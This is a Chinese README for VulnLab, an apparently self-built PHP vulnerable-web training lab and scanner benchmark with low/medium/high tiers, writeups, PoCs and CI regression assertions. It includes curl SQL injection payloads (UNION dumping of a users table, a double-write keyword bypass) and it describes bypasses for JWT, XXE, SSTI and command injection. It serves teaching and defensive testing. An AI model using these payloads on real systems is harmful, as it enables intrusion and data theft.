





# VulnLab — 自研 Web 漏洞靶场与 PoC 基准集

[](https://github.com/hediwen831-star/vulnlab/actions/workflows/ci.yml)
[](https://www.php.net/)
[](#漏洞矩阵)
[](tests/verify_lab.py)
[](LICENSE)
[](docker-compose.yml)

> 用 PHP 从零写一个覆盖 OWASP Top 10 的漏洞靶场。13 个场景，每个都配源码（三档）、Writeup、机读 PoC 与修复对照。

**为什么这个靶场和别的不一样**

大多数靶场只提供「有漏洞的页面」。VulnLab 额外做了四件事：

| | 多数靶场 | VulnLab |
|---|---|---|
| 源码可见性 | 要自己去翻仓库 | 页面右上角一键查看当前页源码 |
| 语句级反馈 | 无 | **页面直接贴出服务端实际执行的 SQL** |
| 修复教学 | 通常没有 | 每个漏洞配 `high` 档修复对照 + 为什么有效 |
| 自动化 | 无 | 每个漏洞配**可被扫描器消费的 YAML PoC**，可作评测基准 |

第三点和第四点是重点。一个只会教你「这里有漏洞」的靶场，培养出的是只会说「这里有问题」的人；
而真正重要的是「应该怎么修，以及为什么这么修有效」。

---



## 文档

| 文档 | 内容 |
|---|---|
| [docs/DESIGN.md](docs/DESIGN.md) | **技术栈、设计原理、教学设计、与现有靶场的差异** |
| [writeups/sqli.md](writeups/sqli.md) | SQL 注入完整 Writeup（原理 → 利用 → 修复） |
| 本 README | 项目概览、漏洞矩阵、快速开始 |

---

## 快速开始

### 方式一：零依赖（推荐）

只要本机有 **PHP 7.3+**（需启用 `pdo_sqlite`，PHP 官方 Windows 包默认自带）：

```bash
# Windows
start.bat

# Linux / macOS / Git Bash
chmod +x start.sh && ./start.sh

# 或者手动指定 PHP 路径（版本需 ≥ 7.3）
set PHP=D:\php\php-7.4-nts\php.exe
start.bat
```

打开 <http://127.0.0.1:8080>。

启动脚本会同时起**两个** HTTP 服务：`8080` 主靶场（你访问的那个），
`8090` 是模拟的「内网服务」，作为 SSRF 场景的攻击目标。之所以要分两个端口：
PHP 内置服务器是单进程的，而 SSRF 场景里服务端需要向自己发请求，单进程下会死锁。
分成两个端口既解决了这个问题，也让 SSRF 的因果链更直观：你从 8080 发起，
请求实际是从服务器发到 8090 的。

每新增一个场景，都要同时补齐 **Writeup + PoC + 修复对照** 三件套。
只加一个「有漏洞的页面」不算完成，这是本项目的硬性约定。

**不需要 MySQL，不需要建库导数据。** 首次访问时 `config.php` 会自动创建
`html/data/vulnlab.db` 并灌入种子数据。这是刻意的设计取舍：
让「clone 下来」到「看到漏洞」之间只隔一条命令，否则大部分人会在配置环境这一步放弃。

### 方式二：Docker

```bash
docker compose up
```

### 验证漏洞

```bash
python pocs/poc_sqli.py
```

零第三方依赖（只用标准库），会依次完成报错型检测、列数探测、
UNION 拖库、黑名单绕过与修复有效性验证。

---

## 架构总览



这个靶场和常见的「有漏洞的页面集合」的区别在于四件套是强制的。

只有第 ① 项的话，它就是个练手站点；加上 ②③④ 之后，
它变成了一份**可被验证、可被自动化消费、且能对照学习修复方式**的基准集。

第 ④ 项尤其重要：「打不动」的档位本身是一种资产 ——
它证明了修复方式确实有效。CI 里那 86 条断言守的就是这批资产不被改坏。

---

## 漏洞矩阵

| 漏洞类型 | low | medium | high（修复对照） | Writeup | 机读 PoC |
|---|:--:|:--:|:--:|:--:|:--:|
| **SQL 注入** | ✓ | ✓ | ✓ | [sqli.md](writeups/sqli.md) | ✓ |
| **XSS（反射型）** | ✓ | ✓ | ✓ | [xss.md](writeups/xss.md) | ✓ |
| **文件上传（getshell）** | ✓ | ✓ | ✓ | [upload.md](writeups/upload.md) | ✓ |
| **SSRF（打内网服务）** | ✓ | ✓ | ✓ | [ssrf.md](writeups/ssrf.md) | ✓ |
| **命令注入（RCE）** | ✓ | ✓ | ✓ | [cmdi.md](writeups/cmdi.md) | ✓ |
| **文件包含（LFI）** | ✓ | ✓ | ✓ | [lfi.md](writeups/lfi.md) | ✓ |
| **PHP 反序列化（POP 链）** | ✓ | ✓ | ✓ | [unserialize.md](writeups/unserialize.md) | ✓ |
| **XXE（外部实体）** | ✓ | ✓ | ✓ | [xxe.md](writeups/xxe.md) | ✓ |
| **越权（水平 / IDOR）** | ✓ | ✓ | ✓ | [idor.md](writeups/idor.md) | ✓ |
| **越权（会话凭据可伪造）** | ✓ | ✓ | ✓ | [idor-session.md](writeups/idor-session.md) | ✓ |
| **JWT（签名绕过）** | ✓ | ✓ | ✓ | [jwt.md](writeups/jwt.md) | ✓ |
| **CSRF（跨站请求）** | ✓ | ✓ | ✓ | [csrf.md](writeups/csrf.md) | ✓ |
| **SSTI（模板注入）** | ✓ | ✓ | ✓ | [ssti.md](writeups/ssti.md) | ✓ |

### 通用约定

每新增一个场景，都要同时补齐 **Writeup + PoC + 修复对照** 三件套。

### SQL 注入三档的设计

三档不是「同一个漏洞重复三遍」，而是三种**不同性质**的防护与对应的绕过思路：

| 档位 | 防护手段 | 注入点类型 | 绕过关键 | 教学重点 |
|---|---|---|---|---|
| `low` | 无 | 数字型（无引号） | 直接 UNION，不需要闭合引号 | 先判断「有没有引号」 |
| `medium` | 关键字黑名单 `str_ireplace` | 字符型（有引号） | **双写绕过**：`ununionion` → `union` | **黑名单原理上必败** |
| `high` | 参数化查询 + 类型校验 | 不可注入 | — | 根治手段与「数据代码分离」 |

`medium` 档的绕过特别值得看：`str_ireplace` 是**单次非递归**替换，
删掉 `ununionion` 中间的 `union` 之后，剩下的 `un` + `ion` 正好拼回 `union`。
页面会把「你的输入」和「过滤后」并排显示出来，你能量化地看到过滤器做了什么。

下面是同一个场景的三档实拍 —— 注意每页中间那栏
**「服务端实际执行的语句」**，它把「拼接」这件事直接摊开给你看：

| low（UNION 直接过来） | medium（双写绕过） | high（被类型校验挡下） |
|---|---|---|
|  |  |  |

---

## 实测利用链

```bash
# ① low 档：数字型 UNION 注入，直接拖出通关凭证
curl "http://127.0.0.1:8080/sqli/low.php?id=-1%20UNION%20SELECT%201,username,secret,role%20FROM%20users"
# → VULNLAB{union_select_master}

# ② medium 档：先试 low 的 payload（会被过滤打不动）
curl "http://127.0.0.1:8080/sqli/medium.php?id=1'%20union%20select%201,username,secret,role%20from%20users--%20"
# → 过滤器检测到敏感关键字 → 数据库错误

# ③ medium 档：双写绕过
curl "http://127.0.0.1:8080/sqli/medium.php?id=1'%20ununionion%20seselectlect%201,username,secret,role%20frfromom%20users--%20"
# → VULNLAB{union_select_master}

# ④ high 档：同一 payload 被类型校验挡在数据库之前
curl "http://127.0.0.1:8080/sqli/high.php?id=-1%20UNION%20SELECT%201,username,secret,role%20FROM%20users"
# → 输入被拒绝：参数 id 必须是纯数字
```

---

## 作为扫描器评测基准

`pocs/` 下的 PoC 是**机读**的，可直接被支持该格式的扫描引擎加载：

```bash
# 用配套的攻击面平台引擎跑本靶场
cd ../attack-surface
python -m asp.cli poc run http://127.0.0.1:8080 --dir ../vulnlab/pocs
```

实测输出（19 个 PoC，数秒内跑完，命中 27 处）：

```
执行 PoC: 19   耗时: 3.7s
命中: 27

critical  vulnlab-command-injection          /cmdi/low.php                   1.00
critical  vulnlab-ssti-template-injection    /ssti/low.php                   1.00
high      vulnlab-xxe-external-entity        /xxe/low.php                    1.00
high      vulnlab-idor-broken-access-control /idor/low.php?order_id=1003      1.00
high      vulnlab-csrf-state-change          /csrf/medium.php                1.00
high      vulnlab-sqli-low-union             /sqli/low.php?id=-1%20UNION...  1.00
…（共 27 处命中，13 个场景的 PoC 全部命中）
```

19 个 = 靶场的 14 个 + 平台自带的 5 个（`--dir` 是**追加**目录，不是替换）。
靶场那 14 个里，13 个是各场景的专属 PoC，多出来的一个是与场景无关的
通用报错型注入检测（`sql-injection-error-based.yaml`）。

> ⚠️ 上表的「命中 27 处 / 13 个场景」是在 **Linux** 上跑出来的。
> Windows 下 `php -S` 的 CWD 语义与 Linux 不同（Linux 切到被请求脚本所在目录，
> Windows 停留在文档根），4 条依赖相对路径的断言会失效，命中数降为 24（12 个场景）。
> 详见 `tests/verify_lab.py` 里对「文档与行为一致性」断言的说明。

为什么它能当基准？

1. **每个场景的 URL 是确定的** —— 不用猜路径
2. **「有没有漏洞」的答案是确定的** —— 低档有、高档没有，不存在模糊地带
3. **提供误报诱饵** —— `high` 档就是天然的假阳性测试点：
   扫描器如果在这里报「存在 SQL 注入」，说明它的判定逻辑有问题

第 3 点尤其有用。**一个只会说「到处都有漏洞」的扫描器，比什么都不报更糟。**

---

## CI 回归守护

靶场里最容易被悄悄破坏的，不是功能，是**安全属性**。

`high.php` 的价值在于「打不动」。但如果后来有人改代码时把参数化查询改回拼接，
这个档位就悄悄失效了 —— 而功能测试不会发现，因为页面看起来还是正常的。

所以 `.github/workflows/ci.yml` 把「哪些档位应该能打通、哪些应该打不通」
变成了**可执行的断言**（`tests/verify_lab.py`，共 **86 条**，覆盖全部 13 个场景）：

**SQL 注入**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · UNION 注入可读到 secret | 应成功 | 漏洞场景没被改坏 |
| low 档 · 原查询为 4 列 | 应成功 | 列数变了会让所有现成 payload 失效 |
| low 档 · 按设计回显数据库错误 | 应回显 | 报错型注入的教学场景 |
| medium 档 · 裸 payload 被阻断 | 应阻断 | 黑名单过滤确实在生效 |
| medium 档 · 双写绕过可利用 | 应成功 | 绕过手法没被「修好」 |
| high 档 · 注入被拒绝 | 应拒绝 | **修复没有回退** |
| high 档 · 不回显数据库错误 | 应不回显 | 错误信息收敛没被关掉 |
| high 档 · 正常查询仍可用 | 应可用 | **修复没有过度** |

**XSS**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 载荷未转义输出 | 应未转义 | 漏洞场景没被改坏 |
| medium 档 · img 事件属性绕过 | 应绕过 | 黑名单的绕过点还在 |
| high 档 · 载荷被转义 | 应转义 | **输出编码没被去掉** |

**文件上传**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 接受 .php 后缀 | 应接受 | 漏洞场景没被改坏 |
| high 档 · 拒绝 .php 后缀 | 应拒绝 | **后缀白名单没被去掉** |

**SSRF**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 可访问内网服务 | 应成功 | 漏洞场景没被改坏 |
| high 档 · 拒绝内网地址 | 应拒绝 | **解析后校验没被去掉**（含 localhost 写法） |
| high 档 · 拒绝 file 协议 | 应拒绝 | **协议白名单没被去掉** |

**命令注入**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 可追加命令 | 应成功 | 漏洞场景没被改坏 |
| medium 档 · 分号被拦 | 应拦截 | 过滤器确实在生效 |
| medium 档 · `&` 绕过黑名单 | 应绕过 | 黑名单的漏项（模拟真实疏漏） |
| high 档 · 注入被拒绝 | 应拒绝 | **白名单 + 转义没被去掉** |
| high 档 · 正常输入仍可用 | 应可用 | **修复没有过度** |

**文件包含**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 路径穿越成功 | 应成功 | 漏洞场景没被改坏 |
| medium 档 · 裸穿越被拦 | 应拦截 | 过滤器确实在生效 |
| medium 档 · 双写绕过 | 应绕过 | 黑名单单次替换的绕过点还在 |
| high 档 · 拒绝全部穿越 | 应拒绝 | **白名单映射 + 越界兜底没被去掉** |
| high 档 · 正常页面可用 | 应可用 | **修复没有过度** |

**PHP 反序列化**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · POP 链写出文件 | 应成功 | 漏洞场景没被改坏（判据用文件系统，不看页面文案） |
| low 档 · 无害对象无副作用 | 应无副作用 | **负向对照**：把「写文件」归因给 POP 链本身 |
| 页面提示的路径可用 | 应成功 | **文档与行为一致** —— 页面上写的相对路径必须真能打通 |
| medium 档 · 标准载荷被拦 | 应拦截 | 类名黑名单确实在生效 |
| medium 档 · 小写类名绕过 | 应绕过 | 黑名单的绕过点还在 |
| high 档 · 拒绝全部 POP 链 | 应拒绝 | **`allowed_classes` 白名单没被去掉** |
| high 档 · 白名单内类可用 | 应可用 | **修复没有过度** |
| low / medium 档 · 副作用结论**幂等** | 应保持命中 | **判据不能依赖"必须是新文件"** |
| high 档 · 始终无副作用 | 应无副作用 | **修幂等性时不能把已拦下的载荷改成"成功"** |

其中幂等性两条**故意不清理**探针文件：连打两次，第二次也必须报成功。原因是页面
原先只在目录出现**新**文件时报成功，而 POP 链是覆盖写入，第二次执行不再产生新文件，
依赖页面文案的机读 PoC 会变成一次性的。

**XXE**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 读到本地文件 | 应成功 | 漏洞场景没被改坏 |
| low 档 · 正常订单可用 | 应可用 | 确立基线：普通 XML 能正常工作 |
| medium 档 · 内联实体被拦 | 应拦截 | 黑名单确实在生效 |
| medium 档 · 外部 DTD 绕过 | 应绕过 | **「实体可以声明在文档之外」这个事实还在** |
| high 档 · 拒绝全部载荷 | 应拒绝 | **三层防护没被去掉**（内联 + 外部 DTD 都测） |
| high 档 · 正常订单可用 | 应可用 | **输入收窄没有误伤业务** |

**JWT**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · `alg=none` 绕过 | 应绕过 | 漏洞场景没被改坏 |
| low 档 · 拒绝错误签名 | 应拒绝 | **对照组：证明不是「什么都不校验」** |
| low 档 · 正常 token 可用 | 应可用 | 修复没有过度 |
| medium 档 · 拒绝 `alg:none` | 应拒绝 | low 的口子确实堵上了 |
| medium 档 · 弱密钥可伪造 | 应成功 | **「校验写对了但密钥弱」这个绕过点还在** |
| high 档 · 拒绝 `alg=none` | 应拒绝 | **算法白名单没被改成黑名单** |
| high 档 · 拒绝弱密钥签名 | 应拒绝 | **密钥强度也修了**（只修算法会退回 medium） |
| high 档 · 正常 token 可用 | 应可用 | **必需声明校验没有误伤正常 token** |

**CSRF**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 跨站请求成功 | 应成功 | 漏洞场景没被改坏 |
| medium 档 · 拒绝外部 Referer | 应拒绝 | **对照组：证明 Referer 检查确实在工作** |
| medium 档 · 空 Referer 绕过 | 应绕过 | `no-referrer` 这个绕过点还在 |
| medium 档 · 子串 Referer 绕过 | 应绕过 | 「包含 vs 相等」这个绕过点还在 |
| high 档 · 拒绝跨站请求 | 应拒绝 | **token 校验没被去掉**，且确认状态未被改动 |
| high 档 · 拒绝错误 token | 应拒绝 | 「带了 token」不等于「带了对的 token」 |
| high 档 · 正确 token 可用 | 应可用 | 修复没有过度 |
| high 档 · 成功后轮换 token | 应轮换 | 一次性 token 的重放防护 |
| high 档 · 拒绝外部 Referer | 应拒绝 | 分层防护：层 ③ 作为补充也生效 |

**SSTI**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 表达式被求值 | 应求值 | 漏洞场景没被改坏（`7*7` → 49） |
| low 档 · 可读服务器文件 | 应成功 | 从「表达式求值」到「任意文件读取」这一步 |
| low 档 · 正常模板可用 | 应可用 | 修复没有过度 |
| medium 档 · 拦下函数调用 | 应拦截 | **对照组：证明括号黑名单确实在工作** |
| medium 档 · 反引号绕过 | 应绕过 | 反引号运算符不需要括号，这个绕过点还在 |
| high 档 · 拒绝全部载荷 | 应拒绝 | **`eval` 没有被加回来**（三种写法都测） |
| high 档 · 变量替换可用 | 应可用 | **改成变量白名单后功能仍然可用** |

**越权（水平 / IDOR）**

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 读到他人订单 | 应成功 | 漏洞场景没被改坏 |
| low 档 · 自己的订单可用 | 应可用 | **基线：排除「页面无条件输出凭证」** |
| medium 档 · 无 uid 被拒 | 应拒绝 | **对照组：证明归属校验确实在工作** |
| medium 档 · 伪造 uid 绕过 | 应绕过 | 「身份来自请求参数」这个绕过点还在 |
| high 档 · 拒绝猜测订单号 | 应拒绝 | 不可枚举 ID 校验生效 |
| high 档 · 拒绝已知真实 ID | 应拒绝 | **防护是归属校验，不是「靠 ID 猜不到」** |
| high 档 · 忽略伪造 uid | 应拒绝 | **身份只从服务端取**（medium 手法失效） |
| high 档 · 自己的订单可用 | 应可用 | **修复没有过度**（合法 ID 没被一起挡掉） |

其中「high 档拒绝已知真实 ID」是这组里最关键的一条 ——
它用 bob 订单的**真实不可枚举 ID** 做载荷，
如果防护只是「让 ID 猜不到」，这一条就会命中。

最后一条是**反向保护**：防止有人为了「修得更安全」而把功能改坏 ——
安全修复不该以牺牲功能为代价。

**越权（会话凭据可伪造）**

场景 `idor-session` 关注另一个维度：`idor` 问「有没有校验资源归属」，
它问「服务端凭什么相信你是谁」。两者独立 —— 归属校验写了但凭据可伪造，
越权照样成立。

| 断言 | 预期 | 守的是什么 |
|---|---|---|
| low 档 · 缺归属过滤 | 应成功 | 详情查询漏掉归属条件这个缺陷没被「顺手补上」 |
| low 档 · 自己的订单可用 | 应可用 | **基线：排除「页面无条件输出凭证」** |
| medium 档 · 伪造凭据绕过 | 应绕过 | 「编码被当成签名」这个绕过点还在 |
| medium 档 · 原凭据被拒 | 应拒绝 | **对照组：证明归属校验确实在工作** |
| medium 档 · 无效凭据被拒 | 应拒绝 | 守「未登录」不退化成「谁都能看」—— 见下 |
| high 档 · 拒绝伪造令牌 | 应拒绝 | 服务端令牌表的边界成立 |
| high 档 · 拒绝他人令牌 | 应拒绝 | **凭据合法 ≠ 能读别人的数据** |
| high 档 · 自己的令牌可用 | 应可用 | **修复没有过度** |

「无效凭据被拒」那条守的是一个真实缺陷：写这一档时，「未登录」和
「不做归属过滤」曾共用同一个 `null` 参数，导致伪造或失效的凭据反而能读到
所有订单 —— 防护被整个绕过。这个缺陷是跑实测才暴露的（13 条身份用例里
只有一条失败），静态看代码看不出来，因为两处 `null` 在各自的位置上都说得通。

### 这个 CI 真的有用吗

一个永远绿的 CI 没有价值。所以实测过它能不能抓到回归：

```
阶段 1  故意破坏 high.php（删类型校验 + 参数化改回拼接 + 恢复错误回显）
        → 6/8 通过，2 条断言失败，退出码 1      CI 报红
阶段 2  从备份恢复原文件
        → 8/8 通过，退出码 0                    CI 转绿
```

本地随时可以复跑：

```bash
python tests/verify_lab.py                    # 人类可读输出
python tests/verify_lab.py --json             # 机器可读
```

退出码约定：`0` 全部通过 / `1` 有断言失败 / `2` 靶场不可达（环境问题）。

---

## 目录结构

```
vulnlab/
├── html/                       # Web 根目录（php -S 的 docroot）
│   ├── index.php               # 漏洞矩阵首页
│   ├── config.php              # 配置 + 数据库自动初始化 + 种子数据
│   ├── source.php              # 源码查看器（顺便演示「任意文件读取」怎么防）
│   ├── lib/
│   │   └── layout.php          # 页面布局组件
│   ├── sqli/
│   │   ├── low.php             # 数字型注入，无防护
│   │   ├── medium.php          # 黑名单过滤，可双写绕过
│   │   └── high.php            # 参数化查询（修复对照）
│   └── data/                   # SQLite 数据文件（运行时生成，不入库）
├── writeups/
│   └── sqli.md                 # SQL 注入完整 Writeup
├── docs/
│   └── DESIGN.md               # 设计文档（技术栈 / 设计原理 / 与现有靶场的差异）
├── tests/
│   └── verify_lab.py           # CI 回归验证（86 条安全属性断言）
├── pocs/
│   ├── vulnlab-sqli-low-union.yaml     # 机读 PoC（确定性检测 + 提取凭证）
│   ├── sql-injection-error-based.yaml  # 机读 PoC（报错型存在性检测）
│   └── poc_sqli.py                     # 独立 PoC 脚本（零依赖）
├── .github/workflows/ci.yml    # CI：PHP 7.3 / 7.4 / 8.1 矩阵 + 安全属性回归
├── docker-compose.yml
├── Dockerfile
├── start.bat / start.sh
└── README.md
```

---

## Writeup 收录

每个场景都有一份独立 Writeup，结构统一：**原理 → 三档逐一拆解 → 修复为什么有效 → 防御清单**。

| 场景 | Writeup | 一句话概括 |
|---|---|---|
| SQL 注入 | [sqli.md](writeups/sqli.md) | 注入点判断 → 列数探测 → 回显位 → UNION 拖库 → 6 种黑名单绕过 |
| XSS | [xss.md](writeups/xss.md) | 输出编码 vs 标签黑名单，以及为什么事件属性总能绕过去 |
| 文件上传 | [upload.md](writeups/upload.md) | 后缀 / MIME / 内容检测三条防线各自怎么被绕过 |
| SSRF | [ssrf.md](writeups/ssrf.md) | 字符串黑名单为什么挡不住 `localhost`、为什么必须解析后再校验 |
| 命令注入 | [cmdi.md](writeups/cmdi.md) | 拼接到 `shell` 的执行路径，以及 `escapeshellarg` 的作用边界 |
| 文件包含 | [lfi.md](writeups/lfi.md) | 路径穿越、`php://filter` 读源码、双写绕过与白名单映射 |
| PHP 反序列化 | [unserialize.md](writeups/unserialize.md) | POP 链构造、`__destruct` 的触发时机、黑名单为何必然过期 |
| XXE | [xxe.md](writeups/xxe.md) | 实体替换这个「开关」、实体可以声明在文档之外、三层修复 |
| JWT | [jwt.md](writeups/jwt.md) | `alg:none` 的逻辑问题与弱密钥的配置问题，为什么必须分别修 |
| CSRF | [csrf.md](writeups/csrf.md) | 为什么「检查了 Referer」不是修复，以及 token 该放在哪 |
| SSTI | [ssti.md](writeups/ssti.md) | 「表达式」这个词的边界、反引号绕过括号黑名单、为什么不 eval 才是修复 |
| 越权 | [idor.md](writeups/idor.md) | 为什么「校验没被绕过、它通过了」也是漏洞，以及身份该从哪来 |

---

## 一个真实的调试记录

项目开发过程中，「列数探测」和「Swagger 暴露检测」都踩了同一个坑：数据库的报错信息
会把**出错的语句原文**回显出来，而 payload 就在那段原文里。于是「注入失败但报错回显」
也会让标记串出现，报出的列数是 1 而不是 4。

这是**检测特征被检测行为本身「制造」出来** —— 扫描器误报最典型的来源。

修复方式：

1. 用**反向匹配器**（`negative: true`）把错误页整类排除
2. 改用**结构化特征**（JSON 里的 `"paths": {`）而不是裸关键词（`swagger`）

